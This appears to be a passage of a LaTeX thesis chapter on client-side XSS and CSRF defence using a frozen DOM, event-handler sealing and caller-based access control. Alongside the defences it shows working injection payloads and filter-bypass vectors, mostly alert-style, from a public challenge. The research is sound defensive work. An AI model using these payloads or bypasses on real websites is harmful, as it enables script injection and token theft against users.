      Aside various benign use cases, the \textit{innerHTML} property can be utilized by an attacker to change an existing element's content and add child elements, change the subsequent document structure and inject nodes which are executing arbitrary JavaScript or plug-in code. Unlike a call of \textit{document.write()}, \textit{innerHTML} write-access will not cause the user agents' parser to re-scan the document. For that reason, an attack vector like \texttt{oElement.innerHTML = '<script>alert(1)</script>'} will not succeed. From the attacker's perspective, this limitation can be facilely circumvented by assigning a string containing an image applied with an event handler -- or simply by using a \textit{defer} attribute applied to the script element. The example snippet \texttt{oElement.innerHTML='<img src=? onerror=alert(1)//'} will execute the alert as soon as the user agent emits the error event for the outstanding valid image source. While \textit{innerHTML} only allows to get or set the HTML surrounded by the targeted element, the property \textit{outerHTML} returns or allows to set the HTML describing the element itself. The user agent support for \textit{outerHTML} is not as comprehensive as for \textit{innerHTML}. The properties \textit{innerText}, \textit{textContent}, as well as \textit{text} and \textit{data}, pertaining to script and style elements, can be considered content properties, which allow arbitrary script execution. As soon as an attacker can influence these properties, it becomes possible to concatenate strings, change existing data and interfere with the business logic, bind new events or create arbitrary HTML elements loading other content form arbitrary domains. \\

      Injections into style tag content properties have the same effect. On Internet Explorer, the attacker can easily introduce CSS expressions to execute JavaScript or apply behavior bindings to force alternate behaviors on existing elements, ultimately executing JavaScript. The appropriate equivalent holds for style attribute properties of HTML elements. Especially Opera and Internet Explorer provide interfaces for executing JavaScript by assigning strings to these kinds of properties. Among them are \textit{cssText}, any \textit{element.style} child property, the array of imports potentially loading new remote style-sheets and others. \\

      Some user agents support further content properties allowing script execution. Microsoft Internet Explorer 10 and earlier releases running in IE7 document mode or quirks mode allows to assign HTML content to a button value. This HTML string can consequently contain images applied with element handlers, being capable of executing JavaScript or even Visual Basic Script on assignment as a result. Older Opera versions allow JavaScript code execution by assigning a JavaScript URI to \textit{document.body.background} -- and especially Gecko-based user agents support a multitude of different assignment based vectors to E4X-based content properties and some specific namespace properties~\footnote{Vela, \textit{Code Execution/Evaluation (rev 41)}, \url{http://sla.ckers.org/forum/read.php?24,28643} (June 2009)}. \\

      One must note that especially plug-ins often introduce supplementary content properties. Internet Explorer also supports the \textit{altHtml} property for object and applet elements~\footnote{MSDN, \textit{altHtml Property}, \url{http://msdn.microsoft.com/en-us/library/ms533074(v=vs.85).aspx} (Dec 2011)}. In some configurations, this property can be used to inject arbitrary markup in case a certain plug-in container is supposed to be loaded yet fails. Our tests have shown that \textit{altHtml} is only considered functional and critical for a trusted DOM on Internet Explorer 8. This browser is out of scope for our examinations since it does not support ES5 and therefore cannot deliver tamper-resistant object accessor control by using methods conforming to methods in line with no standard whatsoever. In addition, several CSS-related properties can probe Internet Explorer's older document modes to execute JavaScript. This also falls outside of our interest in view of those attacks working solely on document modes unable to fully support the necessary \textit{Object.defineProperty} features.

      Aside from the containing and submitting potentially sensitive content data, forms and other redirect sources have another security- relevant aspect - they can be used by an attacker to redirect the user agent to a different domain or even different URI scheme for attack deployment. A trusted DOM has naturally, because of the restrictions enforced by the SOP, no possibilities to ``follow'' such a redirect and guard the DOM created after redirect or redirection chain has been completed. Therefore, form actions, anchors and redirection sources should be considered worth sealing, not only for the sake of protecting potentially sensitive content such as CSRF tokens. In June 2011, we have released a comprehensive list of redirection sources, which we have been maintained ever since~\footnote{Heiderich, M. et al., \textit{Redirection Methods}, \url{http://code.google.com/p/html5security/wiki/RedirectionMethods} (Dec 2011)}.

      \subsubsection{Challenging Event Control}
      \label{subsubsubsec:6.6.4.2_event_control}

      Experiments on latest browser releases showed that it is possible to overwrite the prototypes of existing HTML element constructors to control assignment and execution of the instantiated element's event handlers and callbacks. Consider a regular website being prone to injection attacks. These attacks can include either server-side validation weaknesses or classic reflected as well as persistent XSS vulnerabilities and DOMXSS problems. \\

      In case an attacker abuses an injection point inside or immediately after an HTML attribute, the usual way to deliver the attack is to introduce an event handler. It is then likely to be called by standard user interaction and consequently increase the element's size to indirectly force the user to accidentally fire the necessary event. The code snippet in Listing~\ref{lst:event-handler-style-injection} presents an example of using the \textit{onmouseover} event handler in combination with a style attribute bloating the element's dimensions. \\

\begin{lstlisting}[captionpos=b,label=lst:event-handler-style-injection,caption=Example for common event handler and bloating style injections]
<!-- Injection point -->
<a href="//good.com/%INJECTION%">Click Me</a>

<!-- Injection example -->
<a href="//good.com"onmouseover=evil() 
  style=position:absolute;top:0;left:0;height:999em;width:999em;
>Click Me</a>
\end{lstlisting}      

    When a victim visits the injected document, the user agent will most likely render the injected link positioned absolutely at the left-upper corner of the view port dimensioned with 999 times the parent element's font size - usually between 9990 and 11988 pixel in height per character, assuming a font size between 10px and 12px. The link will fill up the entire view port and any mouse movement on the element will trigger its \textit{onmouseover} event and execute malicious code. \\

    Injections of this kind are very common in real-life XSS attacks, as article by Endler et al. discussed those kinds of injections back in 2002~\cite{endler2002evolution}. The real-life attack launched against the short message service Twitter in late September 2010 utilized a similar trick. There the attackers injected an \textit{onmouseover} attribute combined with a \textit{style} attribute setting the element's \textit{font-size} to 999999999999px, forcing the user to accidentally hover the element and execute the malicious code~\cite{stackoverflow_todays_2010}. \\

    Server-side solutions against attribute injections face several challenges. Firstly, depending on the website developer's intentions, either no attribute injections should be possible or just a selected set of attributes should be allowed or forbidden. According to the chosen approach, different characters and substrings should be encoded or filtered as stated in sections~ \ref{subsubsec:4.3.2.stripping_and_replacing} and~\ref{subsubsec:4.3.4.encoding}. Additionally, an attacker can utilize character encoding flaws and exotic character sets to bypass existing filters - we refer the reader to Section~\ref{subsubsec:5.4.11.attacking_weak_charsets} for details. In case that client-side business logic uses the \textit{innerHTML} or \textit{cssText} properties of the injected element or one of its parent nodes, more ways to circumvent attribute injection filters can be engaged by the attacker as shown in Section~\ref{subsubsec:5.4.8.attacks_using_innerhtml} and Section~\ref{subsubsec:5.4.9.attacks_using_csstext}. In case the injected content is being rendered inside a XML, MathML or SVG context, even more ways to bypass server-side filters will be available, as already outlined in Section~\ref{subsubsec:5.4.10.attacks_using_svg}. \\

     Significantly fewer considerations appear upon choosing a client-side approach to solving the attribute injection problem. If an injection was attempted or even successful, the server is still not required to create any assumptions, as the client is simply blocking the capability of injecting new attributes via untrusted methods. The code snippet in Listing~\ref{lst:event-handler-style-defense} demonstrates a slim functional approach to blocking unwanted attribute access for a particular class of HTML elements. The approach can easily be expanded for operating on the aforementioned element constructors and their prototypes, such as \textit{Node.prototype.onmouseover}. \\

\begin{lstlisting}[captionpos=b,label=lst:event-handler-style-defense,caption=Blocking unwanted event handler access in the client; the event handler is being overwritten\, then frozen and sealed]
<script type="text/javascript">
onload = function(){
    for(i in x=document.getElementsByTagName('*')){
         try {
             x[i].onmouseover=function(){};
             Object.freeze(x[i].onmouseover);
             Object.preventExtensions(x[i]);
         } catch(e){}
    }
}
</script>
<a href="//good.com" onmouseover=evil()>Click Me</a>
\end{lstlisting}  

      It is now evident that the code shown performs an assignment to any of the selected HTML elements' \textit{onmouseover} property, freezes the assigned state and ensures that no other properties can be assigned to the frozen element's DOM. An empty function for assignment to the \textit{onmouseover} property is used in the example. A developer can easily replace this method by an IDS/RBAC handler method, verifying who is trying to set the property and how the parameters look like. This allows to determine if a security compromise is about to happen or if the assignment is actually coming from a legitimate and trusted method. It might sound unbelievable but the 2010 Twitter attack could have been effectively prevented by these few lines of code, with zero addition of server-side protection logic. \\

      \subsubsection{Experimental Evaluation I}
      \label{subsubsubsec:6.6.4.2_experimental_evaluation}

      To prove the feasibility and reliability of this approach of event control, an experiment was carried out in late September 2011. A public test-case was created, announced, and dispersed among the security community members. The test-case consisted of an obviously injectable website lacking proper server-side filtering against XSS injections and alike~\footnote{Heiderich, \textit{XSSMe Challenge}, \url{http://html5sec.org/xssme.php} (Sept 2011)}. An attacker was able to inject an attribute in both an \textit{a} and an \textit{img} element, introducing possibilities to execute JavaScript with an without user interaction. Two exemplary injections were:

      \begin{itemize}
	\item \texttt{xssme?xss= \%20href=javascript:alert(1)//} -- an injection supplying the vulnerable link with a new \textit{href} attribute. A click on it would execute JavaScript code on the hosting domain.
	\item \texttt{xssme?xss= \%0Asrc=x\%0Aonerror=alert(2)//} -- an injection overwriting the existing \textit{src} attribute of the injectable image and adding an error handler executing JavaScript code on the hosting domain. 
      \end{itemize}

      Server-side measurements did not hinder the injection in a drastic manner -- only HTML tags and quotes were encoded properly. Later, by using white-space, the attacker could break the existing unquoted attributes and introduce new attributes and event handlers. The interesting part of this public challenge was that a formerly communicated client-side event control mechanism was in place. The contestants were asked to take the role of the attacker, inject their payload into the vulnerable demo site and cause arbitrary JavaScript to execute. The code displayed in Listing~\ref{lst:challenge-testbed} shows the challenge test-bed.

      An overall of four researchers managed to bypass our filtering mechanism by using six unique bypasses. The first group of bypasses pertained to Internet Explorer and employed a technique forcing the browser into an older document mode incapable of using the necessary ES5 object extensions for event control and its protective purposes. Those issues could be fixed by adding proper \textit{X-Frame-Options} headers forcing the user agent to remain in its most current document mode (IE9/IE10 standards mode). The two remaining bypass families were of rather interesting nature and unveiled an important component for strengthening our approach, while suggesting a browser feature possibly overturning the protective effect in certain scenarios. In case the X-Frame-Options cannot be set for a production website, it is sufficient to set the document mode by using a meta-tag, forcing the layout engine to render in the desired document mode. \\

      The first submitted bypass families were discovered by Heyes and Hippert and made use of a attack technique labeled \textit{DOM Clobbering} -- discussed in detail in Section~\ref{subsubsec:5.4.3.dom_clobbering}. DOM Clobbering allows to overwrite important DOM properties through a sheer existence of specially crafted HTML elements. By injecting a name attribute with the image tag assigned with the value \textit{getElementsByTagName} or simply \textit{attribute}, the researchers overwrote the properties \texttt{document.getElementsByTagName} and \texttt{attributes}:

      \begin{itemize}
	%
        \item Heyes' bypassing attack vector: \\ \texttt{xssme?\%20name=getElementsByTagName\%20onerror=alert(1)//} has worked in all modern user agents. This is due to the fact that \textit{img} elements can overwrite document properties if applied with a matching \textit{name} or \textit{id} attribute. Method call to this property failed in the succeeding script code and the protective DOM freezing and monitoring could not have succeed. 
        Working fix, as of now, was a replacement of the call by \textit{querySelectorAll()} and this property's freeze before the attacker controlled payload got rendered. 
	%
	\item Hippert's bypassing attack vector:\\ \texttt{xssme?\%20name=attributes\%20onerror=alert(1)//} has functioned in Internet Explorer 9 and 10 and came down to overwriting the attributes property of the \textit{img} element. The attack has been successfully mitigated and eliminated by forcing the user agent to remain in ``standards mode''. Consequently, the attack is now related to the other submitted attacks but remains the single successful case of DOM Clobbering use.
	%
      \end{itemize}

      The setup of the challenge did not permit the misuse of the \textit{target} attribute for links and similar elements, such as image map areas. Note though that an attacker capable of influencing a link target might be able to circumvent a DOM-based security library by having a theoretically white-listed JavaScript URI pointing to a non-existing or blank window. This would open a new tab in most user agents and thereby generate a new document object free from security restrictions. A DOM-based security solution should disallow JavaScript URIs in combination with the \textit{target} parameter~\footnote{W3C, \textit{16 Frames}, \url{http://www.w3.org/TR/html4/present/frames.html#adef-target} (Dec 2011)}.\\

      All the aforementioned bypasses have been determined to be easy to fix and addressed by the currently available code available at \url{http://html5sec.org/xssme.php}. The experiment showed that user agents still ship several legacy features that are rarely documented and almost unknown in neither the security nor among the developers. Section~\ref{subsubsec:6.6.1.sealing_critical_properties} indicated that a DOM-based security solution can only work if the deployment of the defensive code happens before any other code is deployed in the protected domain. Furthermore, the native properties used by the defensive code have to be sealed from external access and redefinition. This is to make sure that the core functionality cannot be altered to attacker's benefit. The DOM clobbering example shows how an attacker can turn the browser against the benign and protective scripts, theoretically running to defend the important DOM assets. Nevertheless, unlike server-side protection, this approach is only prone to the set of user agent based bugs and glitches. The problems more likely to be fixed in a wholesome and profound way than multilayer issues between database, server, user agent and render engine. \\

      A different working bypass was found, based on a peculiarity in Internet Explorer 9 and 10 allowing control over the type of scripting language to be used by script tags and event handlers lacking a proper MIME type declaration: In case an attacker injects two attributes into an arbitrary HTML tag context, the fore following script can be implicitly set to a alternative JavaScript or Visual Basic Script (VBS). The snippet \texttt{<b language=vbscript onclick=a>} will perform the described type change, and henceforth all untyped script tags will be executed as if they were VBS and not JavaScript. This allows the attacker to invalidate the sanitizing script and achieve deactivation of its defensive changes made to the protected HTML elements. By consequently adding the \texttt{type="text/javascript"} directive to the defensive script block, a fix has been implemented and is now supplying an ultimate protection against this kind of attacks. \\

      Yet another interesting attack was discovered during the experimentation phase. Working exclusively in Internet Explorer, this technique utilizes the proprietary setter method overwriting based on the event handler \textit{onpropertychange}, briefly mentioned in Section~\ref{subsubsubsec:6.3.1.3.listening_to_property_changes}. This vector discovered by Heyes simply injected the following code sequence: \texttt{onpropertychange = alert(1)}. This has resulted in execution of the alert method as soon as the protective script analyzed, or alternatively, in case an illegal value was detected and modified the corresponding attributes. This subtle attack could not have been mitigated effectively by means of accessing the attacked HTML element prototypes because Internet Explorer does not allow access to native element event handler prototypes and quits these attempts by throwing a JavaScript exception. Be that as it may, we have developed an effective fix against this novel kind of attack by setting the \textit{onpropertychange} property of the affected HTML elements to \textit{null}. The \textit{onpropertychange} event handler does not work recursively, it did not detect the self-change and enabled attack's defeat. We consider this fix valid and sufficient as it stops the attack and does not require additional care for only Internet Explorer is supporting this event handler. \\

      The final class of attacks regarding submission date and complexity against our approach has shown to be very interesting in a sense that HTML5 features were used to undermine the security model built by the frozen DOM -- introducing DOM-based interruption attacks. Shafigullin submitted an attack working on Google Chrome 15 caused by a so far unique implementation detail: The technique in question is using HTML5 sand-boxed Iframes to load the attacked website without JavaScript capabilities. Then, it is giving the Iframe JavaScript execution capability upon its load event being fired. The following code Listing~\ref{lst:attacking-via-sandbox-iframe} illustrates this attack:

\begin{lstlisting}[captionpos=b,label=lst:attacking-via-sandbox-iframe,caption=Sourcecode for the event control breaker challenge submitted by R. Shafigullin]
<iframe id="test" src="http://html5sec.org/xssme?xss= 
  href=javascript:alert(location.host)%20x=" sandbox></iframe>
<script type="text/javascript">
var iframe = document.getElementById('test');
  iframe.addEventListener('load', function() {
  iframe.sandbox = 'allow-scripts';
});
</script>
\end{lstlisting}

      Despite its originality, the attack merely constitutes a browser artifact and a bug. For one, the HTML specification clearly states that sand-boxed content should be applied with a proper MIME type to avoid security problems for users visiting the \textit{iframed} and sand-boxed content directly~\footnote{WHATWG, \textit{4.8.2 The iframe element}, \url{http://www.whatwg.org/specs/web-apps/current-work/multipage/the-iframe-element.html#attr-iframe-sandbox} (Dec 2011)}. Secondly, the implementation in Internet Explorer 10 and other user agents does not allow to post-activate cross-domain script capabilities. While the status bar will show the JavaScript URI on hovering, a click on the injected link will not cause an execution of the injected code. \\

      A different browser bug was unveiled by an additional bypass developed by Heyes, who has highlighted the meaning of \textit{href} attribute for the attacked link consisting of the percent character (U+0025). As soon as Internet Explorer reads the \textit{href} attribute of a DOM node to be made of this one character, or, for that matter, any invalid URL encoded entity such as for example \textit{\%g}, an exception is being thrown and subsequent script code's execution is denied. We have reached a fix, which wraps the accessor in a try-catch-block and duplicates the link reset inside the catch branch. This guarantees having the defensive script code still execute when an exception is thrown, reacting with a forced overwriting of the invalid \textit{href} attribute, and effectively fixing the bypass. Generally, this technique can be used to sanitize user-submitted URLs occurring in the displayed links.\\

\begin{lstlisting}[captionpos=b,label=lst:challenge-testbed,caption=Source-code for the event control breaker challenge]
<?php header('X-XSS-Protection: 0'); ?>
<!doctype html>
<meta http-equiv="x-ua-compatible" content="IE=9">
<script type="text/javascript">
  Object.defineProperty(document,'querySelectorAll',{
    value:document.querySelectorAll,
    writable:true});
</script>
<a style title=<?php echo htmlentities(@$_GET['xss']);?> href=?>click</a>
<img style alt=x<?php echo htmlentities(@$_GET['xss']);?> src=? />
<script type="text/javascript">
for(var i in x=document.querySelectorAll('*')) {
  try {
    if(x[i].attributes) {
      x[i].onpropertychange = null;
      try {
	RegExp('^'+location.protocol+'//'+location.host+'/')
	  .test(x[i].href) ? null : x[i].href='?';
      } catch(e) {
	x[i].href='?'
      }
      for(j in x[i].attributes) {
	try {
	  RegExp('^on').test(x[i].attributes[j].name) 
	    ? Object.freeze(x[i].attributes[j].value=false) : null;
	} catch(e){}
      }
    }
    Object.preventExtensions(x[i]);
  } catch(e){}
}
</script>
\end{lstlisting}

      \subsubsection{Concluding Experiment I}
      \label{subsubsubsec:6.6.4.3_concluding_the_experiment}

     Overall conclusion from our experiment is finding a way to seal and protect event handler of existing elements from being set with arbitrary code. Bottom line, a developer can now implement a new and, in case the user agent navigating the website is modern and regularly upgraded, very efficient way of protecting important DOM properties and maintain security and privacy of the user. Few bypasses have been submitted for this challenge. Most of them could be attributed to DOM Clobbering, document mode enforcing or implementation fault within handling cross-domain content of sand-boxed Iframes. Despite many lines of code that the solution requires in comparison the complexity of the attack, the attribute injection vulnerabilities have been effectively mitigated on a single layer. Server-side character encoding issues, bypasses of server-side filtering libraries such as the HTMLPurifier, impedance mismatches and attacks using \textit{innerHTML} and \textit{cssText}, as well as other attack techniques have been effectively mitigated in this simple example. A substantially larger amount of lines of code (LoC) would be required to achieve same results when crafting a website providing all these mitigation features. In addition, the task would demand more server-side performance for on-time computation and protection. \\

     Ultimately, as the experiment unraveled, several never before documented attacks against Rich Internet Applications (RIA) were found and, in the aftermath, they led to building and issuing simple yet effective fixes. Until browser vendors develop patches against the unwanted layout engine behavior, any framework desiring to deliver client-side attack protection against scripting attacks should be aware of these novel techniques and implement the fixes we have here outlined. \\

    \subsection{Sealing Critical Properties}
    \label{subsubsec:6.6.1.sealing_critical_properties}

      Based on the foundations for a frozen DOM laid in Section~\ref{subsec:6.4.creating_a_frozen_dom}, it needs to be determined which DOM methods and properties need to be sealed and frozen to obtain positive effect for client-side security and avoid interference with normal user behavior and library activity. Those properties will be discussed in the following paragraphs, first enumerating ones that can contain sensitive data. A more in depth discussion of these properties will be approached in Section~\ref{subsubsubsec:6.6.4.1.content_properties} and subsequent Section~\ref{subsubsubsec:6.6.4.2_event_control}. Note that we can only list native properties and host objects. Depending on the client-side business logic of the application one wishes to protect, more properties might have to be sealed and/or frozen. To simplify this apparently tedious task, we propose a creation of an automated tool. Such tool would attempt to initiate a developer-supervised test run, sealing all available user-land properties and detecting getter and setter and caller access alike, create an automated list of accessors, and thereby allow easy generation of a policy file for later productive use. We will comment on the policy file format suitable for this project in Chapter~\ref{ch:7:outlook-and-future-work}. Most importantly, it needs to be highlighted that thanks to our prototype, the process of DOM property and enumeration can be automated, accompanied by an automatic policy generation for later usage.
  
%       \subsubsection{Sinks for Sensitive Data}
%       \label{subsubsubsec:6.6.1.1.sinks_for_sensitive_data}
% 
%       \subsubsection{Forms and Redirect Sources}
%       \label{subsubsubsec:6.6.1.2.forms_and_redirect_sources}
% 
%       Forms and other redirect sources have -- aside from the aforementioned aspects of containing and submitting potentially sensitive data -- yet another security relevant aspect; they can be used by an attacker to redirect the user agent to a different domain or even different URI scheme to deploy an attack. A trusted DOM has naturally, because of the restrictions enforced by the SOP, no possibilities to ``follow'' such a redirect and guard the DOM created after the redirect or redirection chain has finished.
% 

      \subsubsection{Sensitive Links and Token Sinks}
      \label{subsubsubsec:6.6.1.3.sensitive_links_and_token_sinks}

      Modern web applications often provide links and forms that cause state-changing transactions on web server, connected database, or similar storage devices. This can also encompass local storage and cookie values. In case a website does not provide proper protection, an attacker can often leverage those state-changing transactions as a vector for a Cross Site Request Forgery (CSRF) attack. These kinds of attacks, just as the proposed detection and defense methods, have been covered by a significant amount of research. Johns et al. introduced RequestRodeo, a browser extension desired to mitigate CSRF attacks~\cite{johns2006requestrodeo}, a year later, in 2007, Kongsli suggested to use the testing tool Selenium to identify CSRF vulnerabilities in web applications~\cite{kongsli2007security} and in 2008 Ahmad et al. published on CSRF in connection with a vulnerability in Google Mail that allowed an attacker to inject new mail filter options into existing user accounts causing redirection of all mails to an eavesdroppers account or worse.\\

      The protection mechanisms a developer can apply to a web application essentially comprise of three basic measurements:\\

      \begin{itemize}
	\item \textbf{Unguessable request URI/body} An attacker must be incapable to guess full request URIs for non-idempotent requests. This can be accomplished by adding a nonce (a number used once to sign a transaction) or token to the request body, which is reflected by the client and verified by the server before the application can process it further. Similar treatment is possible for forms which can get additional element containing a secret value. By now, most of the existing web frameworks add these tokens automatically for each case of their internal template builders usage.
	%
	\item \textbf{Referrer checks to guarantee same domain requests} A critical and non-idempotent request should origin from neither different nor arbitrary domain. An application server can check the HTTP header field \textit{Referrer} and act accordingly upon noticing invalid referrer or a lack thereof.
	%
	\item \textbf{Checksum to validate request URI/body} An attacker can potentially harm a web application if the request body is extended or reduced. This means that even if a valid anti-CSRF token is part of the request, the addition or removal of parameters or form fields can be damaging to the underlying application. A secure application should use an additional hash to validate all: Number, type, and names of the incoming request parameters. The hash should be salted within a value inaccessible to user agents and attacker. 
      \end{itemize}


      One must be aware that a single XSS vulnerability in the protected web application will make at least two out of three protection mechanisms here-mentioned fail. As soon as an attacker can read the values presented to the user agent by the server to authenticate the request, the protection founders. An attacker who can read a token attached to a GET link or a POST form has a knowledge of all necessary values to forge the request. In consequence, the adversary can likewise execute the request from the same domain to bypass referrer checks. Except for a hash calculated over type, count and names of existing form elements or GET parameters -- if calculated by the server in a safe way -- all other protective measurements can be broken by an XSS exploit. The reason is their reliance on information shared between client and server. All these considerations leave the need for a client-side CSRF protection beyond any doubt. In simple terms, it comes down to providing a way to keep an XSS exploit from being able to read those sensitive sinks. \\

      Straightforward provision of this feature is obtained by a frozen DOM, which can disable read-access on any CSRF protected link and form for arbitrary JavaScript. The protective JavaScript code needs to iterate over all existing HTML element constructors and disable the possibility to read their \textit{href} attributes, their content properties -- discussed in Section~\ref{subsubsubsec:6.6.4.1.content_properties}, and the value attributes of form elements. 
      Let us assume that an attacker tries to provoke an artificial click event on existing CSRF protected GET links under the conditions listed above. This attack can be mitigated through making sure that the click can only come from an actual mouse event - we check its \textit{isTrusted} property before submission and ensure with further checks that the event has not been spoofed. Sections~\ref{subsubsec:6.6.3.javascript_and_dom_based_rbac} and~\ref{subsubsubsec:6.6.4.2_event_control} will detail on the necessary implementation to accomplish safe event control and getter checks. A short and idealized code snippet as a simple proof-of-concept implementation can be found in Listing~\ref{lst:csrf-protect-via-js}. Note that the code cannot be operated on any browser family and version, since not all user agents accept overwriting properties on \textit{HTMLElement}; consequent inheritance to any HTML element is therefore not guaranteed.

\begin{lstlisting}[captionpos=b,label=lst:csrf-protect-via-js,caption=Example implementation of a JS based CSRF protection token shielding]
<a id="secret" href="/delete.php?token=123456secret123456">
  Delete User
</a>
<script type="text/javascript">
// define content properties
var i,x = [
  'text', 'data', 'innerHTML', 'innerText', 
  'textContent', 'outerHTML', 'textContent', 
  'href', 'value'
];
// protect html elements from content property access
for(i in x){
  Object.defineProperty(
    HTMLElement.prototype, x[i], {
      get: function(){return null}
    }
  );
  secret=null;
}
</script>
...
<script>
  // attacker injected code
  alert(document.body.innerHTML.match(/href=".+"/))
</script>
\end{lstlisting}

       CAPTCHA fields can be seen as an alternative CSRF protection. However, their main web applications' functional intentional is to tell humans and machines apart, as well as prevent brute-force attacks. Additionally, CAPTCHAs have gained bad reputation over the last years for significantly decreasing website accessibility and being prone to attacks, as proven by Yan et al. in 2009~\cite{yan2009captcha}, Raj et al. in 2010~\cite{raj2010picture}, El Ahmad et al., as well as Bursztein et al. in 2011~\cite{el2011robustness,Bursztein:2011:TCS:2046707.2046724}. This list could be extended and accompanied by many earlier publications that have give evidence of a large quantity of CAPTCHA implementations being vulnerable against a whole range of diverse attacks.

    \subsection{JavaScript and DOM-based RBAC}
    \label{subsubsec:6.6.3.javascript_and_dom_based_rbac}

    Role based access control (RBAC) systems have been widely used in operating systems and similar implementations. An RBAC -- among other aspects -- can be used to assure minimization of attack impact after a breach; even if an attacker can access files and theoretically execute code, the role based privileged assigned to the user account utilized on behalf of the breach may disallow critical compromise. Without an additional privilege escalation, an attacker would ideally be tied to low privileges and lack possibilities to cause further damage. Contrary to OS software, a browser's DOM does not yet provide reliable ways to limit an attackers capabilities after for instance a successful XSS exploit has taken place. The following paragraphs will describe model and implementation for a proposal to thrive towards a more capability controlled DOM and DOM-based RBAC system. Note that a more simplified implementation of the trusted DOM can also be built upon the model of Discretionary Access Control (DAC). The RBAC approach proposed in this thesis provides more flexibility for complex web applications utilizing several thousands of different methods and various actors with possibly changing privileges over a longer period of execution time.\\

\begin{figure}[htb]
\centering

\includegraphics[width=0.5\textwidth]{./img/dom-protect-3.pdf}
\caption{The RBAC approach marks the third layer for a protected DOM; It enables fine-grained access control to determine whether a method is authorized to access a property or not}
\label{fig:dom-protect-3}
\end{figure}

    The key element for a DOM-based RBAC system is the possibility to utilize the user agent's features to lock down access to properties and methods, while only enabling access if the accessor is matching a certain fingerprint or group of features allowing clear and ``unspoofable'' identification. For the purpose of determining the accessor and its identity, a JavaScript-specific feature can be used. Any called JavaScript function and method  will be able to access an exclusive object in its scope. The object called \textit{arguments} is being described as an ``array-like'' object containing a set of arguments passed to the function by its caller~\footnote{MDN, \textit{arguments}, \url{https://developer.mozilla.org/en/JavaScript/Reference/Functions\_and\_function\_scope/arguments} (Dec 2011)}. Additional to a representation of the passed arguments, the object contains further properties such as the \textit{callee}. By \textit{callee} object pointing to the called function itself, the function is then capable to self-refer. This becomes crucially important if no other reference exists, for example when an anonymous function or closure has been called. \\

    The callee object itself contains yet another exclusive member, which is labeled as \textit{caller}. The scope chain \textit{arguments.callee.caller} will deliver the function's caller and thereby provide information on its identity. For illustration, the caller object can be compared to a list of authenticated callers - only being accepted when a match exists. This way a very simple yet effective white-list-based RBAC can be installed. One has to note that Gecko-based user agents allowed usage of the shortcut \textit{arguments.caller} as well, which is by now considered obsolete. Furthermore noteworthy is here: As soon as a block of JavaScript code is executed in a strict mode, utilizing \textit{arguments.callee} will not be possible. Equally, the access to \textit{arguments.callee.caller} is impossible. The strict mode therefore currently hinders our approach from working and might be avoided or scoped more granularly for specifically chosen methods and code blocks only.\\ 

    \subsubsection{Accessor Identification}

    While meeting the first requirement, which is hindering public access to a property, poses no challenge, the clear identification of a valid accessor can be in many situations complicated. The code snippet from Listing~\ref{lst:rbac-approach-for-cookie} demonstrate an apparently straightforward yet valid approach of locking down access to the DOM property \textit{document.cookie}. Only the caller \textit{Safe.get} can be access method for the property. Let us point out that this scenario assumes that an attacker can inject any form and/or amount of malicious code immediately following the outlined script. This includes plug-in code, arbitrary HTML and JavaScript, and we suppose that no server-side filter is in place.\\

    Additionally, the value of \textit{document.cookie} has been set to null to disable a specific attack against this feature discussed in \ref{subsubsec:6.7.2.taming_javascript_uris}. Even if an attacker is capable of forcing a redirect to a JavaScript URI containing only a string, which is generating HTML causing yet another script execution, the cookie data cannot be accessed; it is simply not available anymore. 
    It has to be said that header settings specifying the cookie as HTTPonly~\footnote{OWASP, \textit{HTTPOnly}, \url{https://www.owasp.org/index.php/HttpOnly} (Nov 2011)} would prevent this trick from working, but at the same time, it would not limit access to other properties than the exemplary \textit{document.cookie} that our approach is capable of protecting.\\

\begin{lstlisting}[captionpos=b,label=lst:rbac-approach-for-cookie,caption=Proposed DOM-based RBAC approach to handle document.cookie access]
<script type="text/javascript">
// assign secret value to document.cookie
document.cookie = '123456-secret-123456';

(function(){
  var i,j,x,y; 

  // store private copy of documkent cookie
  var cookie = document.cookie; 
  var o = Object.defineProperty;
  
  // reset document dookie
  document.cookie = null;

  // permit click-related safe getter to access document.cookie
  o(MouseEvent.prototype, 'isTrusted', {configurable:false});
  o(document, 'cookie', {get: 
    function() arguments.callee.caller === Safe.get ? cookie : null
  });        

  // remove and seal alternative retrieval methods
  x=Object.getOwnPropertyNames(window),x.push('HTMLHeadElement');
  for(i in x) {
    if(/^HTML/.test(x[i])) {
      for(j in y=['innerHTML', 'textContent', 'text']) {
        o(window[x[i]].prototype, y[j], {get: function() null})
      }
    }
  }
  for(i in x=['wholeText', 'nodeValue', 'data', 'text', 'textContent']) {
    o(Text.prototype, x[i], {get: function() null})
  }

})();
</script>
\end{lstlisting}

      The examplary code in Listing~\ref{lst:rbac-approach-for-cookie} outlines a particularly hard to handle situation. Not only is this code capable of blocking access to the value of a specific DOM property -- but it also manages access blocking for different DOM properties with indirect access to sensitive data -- note lines 21 and following. The example does not assume that \textit{document.cookie} is exclusively populated by the user agent's HTTP headers, but sets the sensitive value directly in the DOM. That means that an attacker could, for instance, use the plain-text properties describing the text content of script tag or any other parent node to get access to the protected value. If only the DOM property \textit{document.cookie} was to be protected, the necessary code would be significantly shorter and compact. Since the sensitive value assigned to \textit{document.cookie} is part of the properties, such as  \texttt{document.body.parentNode.children[0].firstNode.textContent}, it can be retrieved by an attacker. However, the additional precautions have to be met, meaning that the constructor prototyped of the properties leaking the sensitive information must be identified and sealed to hinder the attacker from being able to access them. \\

